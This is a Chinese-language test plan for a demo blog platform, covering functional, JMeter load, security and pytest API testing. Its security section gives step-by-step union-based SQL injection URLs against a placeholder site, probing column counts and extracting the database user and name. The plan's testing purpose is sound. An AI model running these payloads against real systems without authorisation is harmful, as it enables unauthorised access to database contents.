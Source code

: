# 测试计划
 ## 功能测试
 0. 注册模块
  ### a) 密码太长
  ### b）密码太简单。
  ### c) 密码包含特殊字符。
  ### d) 空密码不允许。
  ### 这可太多了。。。。

 1. 登录模块
  ### a) 输入正确的用户名和密码，正常登陆
  ### b) 输入错误的用户名和密码，登录错误
  ### c) 不输入用户名和密码直接按，登录错误
  ### d) 输入特殊密码 例如 带 单引号的，带双引号的，带表情的，根据相应规则，弹出相应提示。
  ### 如不允许，应弹出不允许提示。
  ### 如果允许，应弹出登录成功提示。
  ### e) 如未登录，无法发表文章。
  ### f) 登录完成，可以发表文章。

 2. 文章发表模块
  ### a) 文字写入模块。
  ### 写入正常文字
  ### 写入火星文和表情
  ### 写入特殊字符。单引号，双引号。正常写入
  ### 写入超长文字，提示无法输入超长。
  ### 写入部分文字以后，再点“写文章”按钮，提示是否想要清除当前写入。 点击“清除”，成功清除，点击“取消”，可以接着编辑。[进一步奇思妙想当然可以 有草稿箱 之类的功能，我这里不扩展了]
  ### 写入完成之后，点击"发布"按钮， 弹出提示，“确认发布吗？”， “返回修改？”。点击“确认发布”后发布成功，点击“返回修改”后可以 继续返回修改。
  ### b)图片上传按钮测试。
  ### 可以上传，可以拖拽。两个基本功能。 这里不用搞的太复杂了
  ### 有一个点需要特别关注，对于上传超大尺寸图片怎么处理。
  ### 如果不允许超大尺寸，需要弹出提示，我们最大允许多大尺寸。
  ### 如果允许超大尺寸，必须验证大图能成功上传。
  ### 是否支持上传小视频，小视频尺寸多大？ 等等。
  ### 超过视频大小需要弹框建议，传不了。
  ### 小于最大尺寸的小视频应该能够上传。

3. 文章列表模块。
  ### a) 新发布的文章在最上显示。后发布的文章在下面显示。
  ### b) 这应该是一个博客园项目。是否支持全局搜索。验证根据关键字进行全局搜索是否能显示出相关文章。
  ### c) 文章中图片/小视频是否能正常显示。
  ### d) 图片是否能放大显示。
  ### e) 小视频是否能全屏播放
  ### f) 文章数过多时是否支持分页。

 ## 性能测试
  
  ### 登录模块/ 注册模块
  [注册模块的性能测试与登录略为相似，这里省略]
  
  造数据。造大约10000用户的数据。此时有两种情况。
  可以使用测试服务器进行压测，也可以使用生产服务器进行压测。
  主要看测试服务器和生产服务器集群的规模是否一致。
  如果一致，建议测试服务器。
  如果非要到生产环境压测，请使用标记数据做好数据隔离。另外要做好生产环境挂了，随时回滚的准备。

  多台节点使用Jmeter实行并发压测。例如4台，保证每台节点的网络带宽满足测试需求。
  模拟 10人/100人/1000人/10000人同时登录博客系统。
  具体同时登陆人数以业务侧 PM给出的数据为准。

  ### 文章发表模块
  文章发表模块可以模拟多人同时发表文章。
  多台节点使用Jmeter实行并发压测。例如4台，保证每台节点的网络带宽满足测试需求。
  模拟 1000人同时发1000篇文章。
  模拟10000人同时发10000篇文章。
  具体同时发文章的数量以业务侧 PM给出的数据为准。
  [文章中需同时包含 图片/文字/小视频 信息。]
  
  具体同时发表文章数以业务侧 PM给出的数据为准。
  
  ### 文章列表模块
  这个接口模拟大量用户同时拉取文章列表。

  有两种可能性。 模拟用户拉取自己的文章列表。

  模拟用户用关键字做全局搜索拉取文章列表。

  例如每个用户发布了 1000篇文章。
  模拟1000人同时拉取1000篇文章。
  模拟10000人同时拉取1000篇文章。
  具体业务场景以PM指定的业务侧要求为准。
  如果做了分页，可以减少单次文章的拉取量。

 ### 总结
  上述性能测试模块需要着重关注 吞吐量，平均响应时间，错误率等参数。
  同时要关注服务器端服务的CPU, 内存，甚至数据库的IO等信息。
  不要将并发数设置的过大，具体根据业务侧的需求来。并发数放量到 1.5-2倍左右即可。

 ## 安全测试
   安全测试这个范围太大了，本文只讲一下SQL注入，不同的安全测试对应不同的工具和不同的测试方法。

   这个可以重点测试一下SQL注入。但是一般现代系统都已经规避了SQL注入。
   本例主要针对MYSQL 5.0做一些SQL注入的尝试，但是其他系统也是一样的，只是SQL语句略有不同。

   先输入博客园URL[这是个demo，不是真实的URL]。例如

   https://www.bokeyuan.com/article_list?user_id=101 and 1=1

   https://www.bokeyuan.com/article_list?user_id=101 and 1=2

   如果1=1返回正常，1=2返回不正常，则存在注入点。
   
   然后使用如下语句猜一下这个表有多少个字段[一个一个加，直到出现error为止。] 比如说这个表的字段是18个，加到19就会error
   
    https://www.bokeyuan.com/article_list?user_id=101 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from information_schema.tables
    
   找到错误之后，使用一个错误的user_id进行替换，例如-5,这时会返回一个空的1,2,3,4,5列表
   https://www.bokeyuan.com/article_list?user_id=-5 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from information_schema.tables
   
   下面就可以开黑了

   查询当前数据库user

    https://www.bokeyuan.com/article_list?user_id=-5 union select 1,user(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from information_schema.tables
    
   查询数据库，等等。不一一例举了。

    https://www.bokeyuan.com/article_list?user_id=-5 union select 1,database(),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18 from information_schema.tables


 ## API测试
   API 测试的Case可以参考功能测试的Case进行设计。但是要从API的角度出发，实现自动化。
   ### 框架可选取 pytest。 
   ### 请求部分可选用requests库。
   ### 断言部分可对python的原生assert做简单封装。